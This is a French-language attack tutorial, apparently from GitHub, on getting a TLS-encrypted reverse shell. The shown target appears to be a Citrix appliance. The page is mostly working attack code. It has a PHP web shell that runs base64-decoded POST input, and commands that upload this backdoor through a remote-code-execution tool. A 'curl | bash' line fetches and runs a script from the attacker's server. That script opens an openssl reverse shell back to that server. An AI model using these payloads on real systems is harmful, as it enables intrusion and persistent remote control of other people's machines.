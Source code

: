 # Reverse shell via openssl


## Création d'un Python HTTPS server

```python
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl

httpd = HTTPServer(('0.0.0.0', 4443), SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile='./cert_serv.pem', server_side=True)
httpd.serve_forever()
```

Création du certificat TLS:

```bash
openssl req -new -x509 -keyout cert_serv.pem -out cert_serv.pem -days 365 -nodes
```

Utilisation:

```bash
python2 ./https.py
```

## Code backdoor

Fichier "back.php": 

```php
<?php system(base64_decode($_POST['x'])); ?>
```

Test de la backdoor:

```bash
(host) -> docker run -v ${PWD}:/opt/src --rm -ti php:alpine /bin/ash

(docker) -> # ip a s eth0
23: eth0@if24: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.4/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
(docker) -> # cd opt/src
/opt/src # php -S 0.0.0.0:1337
[Fri Feb 21 11:37:57 2020] PHP 7.4.2 Development Server (http://0.0.0.0:1337) started
```

Envoi de la commande curl:

```bash
(host) -> curl -k http://172.17.0.4:1337/back.php -d "x=`echo 'id' | base64`"

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

## Exploitation de la RCE et upload de la backdoor

Lancer le serveur python https:

```bash
python ./https.py
```

Avec le tool de mpgn:

```bash
(host) -> command > curl -k https://192.168.55.1:4443/back.php -o /var/vpn/themes/back.php
[+] Adding bookmark 7QDFBBVO4SZ9.xml
[+] Bookmark added
[+] Result of the command: 

```

Trigger de la backdoor:

```bash
(host) -> curl -k https://192.168.55.123/vpn/themes/back.php -d "x=$(echo 'id' | base64)"

uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

## Reverse shell openssl

Check si openssl est installé:

```bash
(host) -> curl -k https://192.168.55.123/vpn/themes/back.php -d "x=$(echo 'which openssl' | base64)"

/usr/bin/openssl
```

Génération d'une paire de clé pour le rev shell:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout priv.key -out cert.crt
```

Copie du certificat dans le dossier du serveur https:

```bash
cp cert.crt PATH/TO/https
```

Ouverture de la socket openssl:

```bash
openssl s_server -quiet -key priv.key -cert ../https/cert.crt -port 8443
```

Script pour trig le reverse shell openssl

```bash
#!/bin/sh

IP_ATTACKER="192.168.55.1"
REMOTE_CRT_PATH="/var/vpn/themes/cert.crt"
OPENSSL_PATH=$(which openssl)

curl -k https://${IP_ATTACKER}:4443/cert.crt -o ${REMOTE_CRT_PATH}

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ${OPENSSL_PATH} s_client -quiet -CAfile ${REMOTE_CRT_PATH} -verify_return_error -verify 1 -connect ${IP_ATTACKER}:8443 > /tmp/s; rm /tmp/s
```

Trigger du rev shell TLS:

```bash
(host) -> curl -k https://192.168.55.123/vpn/themes/back.php -d "x=$(echo 'curl -k https://192.168.55.1:4443/revopenssl.sh | bash' | base64)"
```

Dans le terminal avec le openssl en attente: 

```bash
(host) -> openssl s_server -quiet -key priv.key -cert ../https/cert.crt -port 8443  
sh: can't access tty; job control turned off
(citrix) -> $ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

